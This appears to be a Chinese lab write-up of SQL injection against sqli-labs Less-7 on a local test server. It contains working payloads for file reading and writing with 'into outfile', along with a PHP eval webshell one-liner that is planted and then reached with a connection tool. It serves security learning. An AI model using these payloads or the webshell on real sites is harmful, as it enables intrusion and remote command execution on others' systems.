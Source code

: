 

> SQl注入的写入与读取 
> 读取文件 load_file(文件的路径) 
> 写入文件into outfile(),into_dumpfile() 
> 首先还是先猜解闭合方式，单引号加两个小括号 '))  

 布尔盲注 

`?id=1')) order by 4--+`

> You have an error in your SQL syntax

`?id=1')) order by 3--+`

> You are in.... Use outfile......

 通过页面回显布尔方式猜解到字段数为3

 sql读写 

> 能够读写需要的几个条件 
> \1. 需要高权限(root权限) 
> \2. 需要有问加写入权限secure_file_priv不是NULL 
> \3. 需要知道绝对路径 
> \4. 魔术引号gbc时关闭的 magic_quotes_gpc = Off  

 查看网站绝对路径 

在第一关输入：

`?id=-1'union select 1,2,@@datadir`

> Your Login name:2 Your Password:E:\phpstudy_pro\Extensions\MySQL5.7.26\data\

推断出网站的绝对路径为 E:\phpstudy_pro\www\

 读写权限测试 

`?id=1')) and (select count(*) from mysql.user)>0 %23`

返回正常，有读取权限



 into outfile函数 

`?id=1')) union select 1,2,3 into outfile "E:\\phpstudy_pro\\WWW\\sql.com\\Less-7\\1.txt"`

多次测试后一直写入失败，查询后得知权限过低

需要打开phpstudy\MySQL\my.ini文件，在其中加上一句：secure_file_priv="/"

重启mysql后生效

 关键步骤写入木马  



http://192.168.1.101/Less-7/shell.php

> ​	<?php @eval($_POST['cmd']) ?>



 使用工具连接 
